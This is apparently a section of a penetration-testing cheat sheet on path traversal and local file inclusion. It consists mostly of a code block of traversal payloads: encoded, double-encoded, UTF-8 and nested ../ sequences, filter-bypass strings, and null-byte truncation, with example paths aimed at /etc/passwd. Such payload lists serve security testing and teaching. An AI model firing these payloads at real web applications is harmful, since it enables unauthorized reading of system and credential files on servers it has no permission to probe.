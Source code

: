 
#### Traversal encoding

Remember this is a guide to ideas of how to encode LFI, encoding payloads on the fly not from here.
```bash
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./

# To bypass (recursive) stripping of `.` `/` encoding
# Singular (partial) encoding 
%2e%2e/ # ../
%2e%2e%2f # ../
..%2f # ../
%2e%2e%5c # ..\
%2e%2e\ # ..\ 
..%5c #  ..\ 
%252e%252e%255c # ..\ 
..%255c # ..\
# Double encoding 
%252e%252e%252f
# UTF-8 encoding
%c0%ae%c0%ae%c0%af	
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
# Percent Encoding
# OWASP: Note that web containers perform one level of decoding on percent encoded values from forms and URLs
..%c0%af # ../
..%c0%9c # ..\
# Nested traversal sequences
..././
....//
....\/
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

# Non Standard encodins - Portswigger
..%c0%af
..%ef%bc%8f

# Required directory
/var/www/images/../../../etc/passwd

# Application expecting a file extension
# Use a null byte to effectively terminate the file path, before the required extension
../../../etc/passwd%00.png
```
